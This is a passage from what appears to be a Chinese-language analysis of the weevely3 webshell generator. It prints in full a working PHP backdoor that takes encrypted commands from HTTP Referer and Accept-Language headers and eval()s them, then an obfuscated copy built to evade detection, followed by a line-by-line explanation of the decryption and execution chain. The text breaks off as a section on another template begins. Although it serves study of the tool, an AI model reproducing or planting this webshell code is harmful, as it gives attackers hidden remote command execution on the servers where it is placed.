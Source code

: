 		$kh="5d41";$kf="402a";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}$r=$_SERVER;$rr=@$r["HTTP_REFERER"];$ra=@$r["HTTP_ACCEPT_LANGUAGE"];if($rr&&$ra){$u=parse_url($rr);parse_str($u["query"],$q);$q=array_values($q);preg_match_all("/([\w])[\w-]+(?:;q=0.([\d]))?,?/",$ra,$m);if($q&&$m){@session_start();$s=&$_SESSION;$ss="substr";$sl="strtolower";$i=$m[1][0].$m[1][1];$h=$sl($ss(md5($i.$kh),0,3));$f=$sl($ss(md5($i.$kf),0,3));$p="";for($z=1;$z<count($m[1]);$z++)$p.=$q[$m[2][$z]];if(strpos($p,$h)===0){$s[$i]="";$p=$ss($p,3);}if(array_key_exists($i,$s)){$s[$i].=$p;$e=strpos($s[$i],$f);if($e){$k=$kh.$kf;ob_start();@eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));$o=ob_get_contents();ob_end_clean();$d=base64_encode(x(gzcompress($o),$k));print("<$k>$d</$k>");@session_destroy();}}}}

4. <code> obfuscated = obfuscator_template.render(agent=agent)</code>这是最核心的代码，使用obfuscator模板对webshell进行"模糊处理"，去除容易被检测的特征。模糊处理完的文件源码为：<br>

		<?php
		$s='d5($R$i.$$Rkh),0,3));$R$f=$sl$R($ss(m$Rd5$R($i.$kf),0,3$R));$p$R$R="";for($R$z=1;$R$z<count($R$m[1]);$z$R++)$p.=$R$q[$m[$R';
		$H='$Rses$Rsion_st$Rart();$s=&$_SES$RSION;$ss="$Rsub$Rs$Rtr";$sl="str$Rtolower$R";$i$R=$m[1$R][0]$R.$m[1][1];$R$h=$R$sl($ss($Rm';
		$u='g_replac$Re(arr$Ray$R("/_/","/$R-/"),arr$Ray$R("/","+"$R),$$Rss($s[$i],0$R,$e)$R))$R,$k)));$$Ro=ob_$Rget_$Rcontents($R);ob_';
		$V='$kh="$R5d41";$R$kf="402$Ra$R$R";function x($t,$$Rk){$c=st$Rr$Rlen($k);$l=st$Rrlen$R($t)$R;$o="";for$R($$Ri=0;$i<$$Rl;){$Rfor';
		$E=';$R$q=a$Rrray_valu$Res($q);$Rpr$Reg_match$R_all("/($R[\\w])[$R\\w-]+(?:;$Rq=0$R.([\\d$R]))?$R,?/",$ra$R,$m);if($$Rq$R&&$m)$R{@';
		$c='($j=$R0;($j<$R$c&&$R$$Ri<$R$l);$j++$R,$$Ri++){$o.=$t{$i$R}^$k{$j}$R;}}return$R $R$o$R;}$r=$_SERVER;$$Rrr=@$r[$R"HT$RTP_REFER';
		$F='R$$Re=$Rstr$Rpos($s[$i],$f);if($R$e){$k=$k$Rh$R.$kf;ob_$Rsta$Rrt()$R;@ev$Ral(@gzuncom$Rpress(@x($R@bas$Re64_$Rdecode(pr$Re';
		$P='$RER"];$$Rra=@$r["H$RTTP_AC$RCE$RPT_LA$RNGUAGE$R"];if($r$Rr&&$ra){$R$u=pars$Re$R_ur$Rl($rr);par$Rs$Re_str($$Ru["query"]$R,$q)';
		$R='end_c$Rlean$R();$d=$Rbase$R64_en$Rcode(x(gzc$Rompress$R$R($o)$R,$k));pri$Rnt($R"<$R$$Rk>$R$d</$k>");@sessi$Ron_destroy();}}}}';
		$f='2][$R$z$R]];if(s$Rtrpos($p$R,$R$h)===0){$s[$i$R]="";$$Rp=$R$ss($p,3)$R;}if(arr$R$Ray_$Rkey_exists($i,$R$s$R)){$s[$i$R].=$p;$';
		$U=str_replace('iV','','creiViVaiViVte_funciVtiiVon');
		$X=str_replace('$R','',$V.$c.$P.$E.$H.$s.$f.$F.$u.$R);
		$O=$U('',$X);$O();
		?>

5. 通过对最具有格式且没有经过模糊处理的php文件进行源码走读，可以看出，文件中存在"$kh=5d41"和"$kf=402a"这两个参数，这两个参数就是我们生成文件时的定义的密码经过md5加密后的前8位，分在两个参数中存储。<code> $r=$_SERVER;$rr=@$r["HTTP_REFERER"];$ra=@$r["HTTP_ACCEPT_LANGUAGE"];</code>从server中去取http协议请求头中的REFERER数据和ACCEPT_LANGUAGE数据，然后通过正则表达式<code> preg_match_all("/([\\w])[\\w-]+(?:;q=0.([\\d]))?,?/",$ra,$m);</code>去匹配ACCEPT_LANGUAGE中的数组偏移量。<code> $h=$sl($ss(md5($i.$kh),0,3));$f=$sl($ss(md5($i.$kf),0,3));</code>来求出真正有用的payload的header和footer。
<code> @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));</code>这个函数是用来解密payload，得到真正攻击的载荷命令。<br><code> $d=base64_encode(x(gzcompress($o),$k));</code>把执行结果通过相同的方式进行加密，放在自己密码加密后的标签中<code> print("<$k>$d</$k>");</code><br>

### 6.3&emsp;PHP(legacycookie_php.tpl模板)后门文件分析 ###
&emsp;&emsp;&emsp;weevely3中默认生成的文件是以stegaref_php.tpl为模板和以obfusc1_php.tpl为混淆模板来进行后门文件生成。可以在weevely.py文件中对这两个参数进行修改换成以legacycookie_php.tpl为模板和cleartext1_php.tpl为混淆模板生成配合php文件。<br>
**直接对源代码进行跟踪调试**<br>
1. <code> agent = Template(open(agent_path,'r').read()).render(password=password)</code>render agent模板文件，得到原始的webshell。webshell源码通过pycharm debug出来初始php代码为：<br>
